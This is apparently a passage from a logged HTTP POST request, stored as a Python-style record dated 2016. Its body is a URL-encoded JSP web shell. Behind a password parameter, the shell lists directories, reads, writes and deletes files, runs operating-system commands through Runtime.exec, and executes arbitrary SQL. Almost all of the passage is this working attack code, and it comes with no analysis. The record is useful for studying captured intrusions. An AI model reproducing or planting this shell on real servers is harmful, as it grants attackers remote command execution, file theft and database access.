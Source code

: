 ngBuffer%20sb)throws%20Exception%7Bint%20i%3BConnection%20c%3DGC(s)%3BStatement%20m%3Dc.createStatement(1005%2C1008)%3B%0D%0Atry%7BResultSet%20r%3Dm.executeQuery(q)%3BResultSetMetaData%20d%3Dr.getMetaData()%3Bint%20n%3Dd.getColumnCount()%3Bfor(i%3D1%3Bi%3C%3Dn%3Bi%2B%2B)%7Bsb.append(d.getColumnName(i)%2B%22%5Ct%7C%5Ct%22)%3B%0D%0A%7Dsb.append(%22%5Cr%5Cn%22)%3Bwhile(r.next())%7Bfor(i%3D1%3Bi%3C%3Dn%3Bi%2B%2B)%7Bsb.append(EC(r.getString(i)%2Ccs)%2B%22%5Ct%7C%5Ct%22)%3B%7Dsb.append(%22%5Cr%5Cn%22)%3B%7Dr.close()%3B%7D%0D%0Acatch(Exception%20e)%7Bsb.append(%22Result%5Ct%7C%5Ct%5Cr%5Cn%22)%3Btry%7Bm.executeUpdate(q)%3Bsb.append(%22Execute%20Successfully!%5Ct%7C%5Ct%5Cr%5Cn%22)%3B%0D%0A%7Dcatch(Exception%20ee)%7Bsb.append(ee.toString()%2B%22%5Ct%7C%5Ct%5Cr%5Cn%22)%3B%7D%7Dm.close()%3Bc.close()%3B%7D%0D%0A%25%3E%3C%25%0D%0AString%20cs%3Drequest.getParameter(%22z0%22)%2B%22%22%3Brequest.setCharacterEncoding(cs)%3Bresponse.setContentType(%22text%2Fhtml%3Bcharset%3D%22%2Bcs)%3B%0D%0AString%20Z%3DEC(request.getParameter(Pwd)%2B%22%22%2Ccs)%3BString%20z1%3DEC(request.getParameter(%22z1%22)%2B%22%22%2Ccs)%3BString%20z2%3DEC(request.getParameter(%22z2%22)%2B%22%22%2Ccs)%3B%0D%0AStringBuffer%20sb%3Dnew%20StringBuffer(%22%22)%3Btry%7Bsb.append(%22-%3E%22%2B%22%7C%22)%3B%0D%0Aif(Z.equals(%22A%22))%7BString%20s%3Dnew%20File(application.getRealPath(request.getRequestURI())).getParent()%3Bsb.append(s%2B%22%5Ct%22)%3Bif(!s.substring(0%2C1).equals(%22%2F%22))%7BAA(sb)%3B%7D%7D%0D%0Aelse%20if(Z.equals(%22B%22))%7BBB(z1%2Csb)%3B%7Delse%20if(Z.equals(%22C%22))%7BString%20l%3D%22%22%3BBufferedReader%20br%3Dnew%20BufferedReader(new%20InputStreamReader(new%20FileInputStream(new%20File(z1))))%3B%0D%0Awhile((l%3Dbr.readLine())!%3Dnull)%7Bsb.append(l%2B%22%5Cr%5Cn%22)%3B%7Dbr.close()%3B%7D%0D%0Aelse%20if(Z.equals(%22D%22))%7BBufferedWriter%20bw%3Dnew%20BufferedWriter(new%20OutputStreamWriter(new%20FileOutputStream(new%20File(z1))))%3B%0D%0Abw.write(z2)%3Bbw.close()%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22E%22))%7BEE(z1)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22F%22))%7BFF(z1%2Cresponse)%3B%7D%0D%0Aelse%20if(Z.equals(%22G%22))%7BGG(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22H%22))%7BHH(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22I%22))%7BII(z1%2Cz2)%3Bsb.append(%221%22)%3B%7D%0D%0Aelse%20if(Z.equals(%22J%22))%7BJJ(z1)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22K%22))%7BKK(z1%2Cz2)%3Bsb.append(%221%22)%3B%7Delse%20if(Z.equals(%22L%22))%7BLL(z1%2Cz2)%3Bsb.append(%221%22)%3B%7D%0D%0Aelse%20if(Z.equals(%22M%22))%7BString%5B%5D%20c%3D%7Bz1.substring(2)%2Cz1.substring(0%2C2)%2Cz2%7D%3BProcess%20p%3DRuntime.getRuntime().exec(c)%3B%0D%0AMM(p.getInputStream()%2Csb)%3BMM(p.getErrorStream()%2Csb)%3B%7Delse%20if(Z.equals(%22N%22))%7BNN(z1%2Csb)%3B%7Delse%20if(Z.equals(%22O%22))%7BOO(z1%2Csb)%3B%7D%0D%0Aelse%20if(Z.equals(%22P%22))%7BPP(z1%2Csb)%3B%7Delse%20if(Z.equals(%22Q%22))%7BQQ(cs%2Cz1%2Cz2%2Csb)%3B%7D%0D%0A%7Dcatch(Exception%20e)%7Bsb.append(%22ERROR%22%2B%22%3A%2F%2F%20%22%2Be.toString())%3B%7Dsb.append(%22%7C%22%2B%22%3C-%22)%3Bout.print(sb.toString())%3B%0D%0A%25%3E",
 u'date': u'2016-04-18T09:15:51',
 u'headers': {u'accept': u'*/*',
              u'content-length': u'9069',
              u'content-type': u'application/x-www-form-urlencoded',
              u'expect': u'100-continue',
              u'host': u'REDACTED',
              u'user-agent': u'Mozilla/5.0'},
 u'method': u'POST',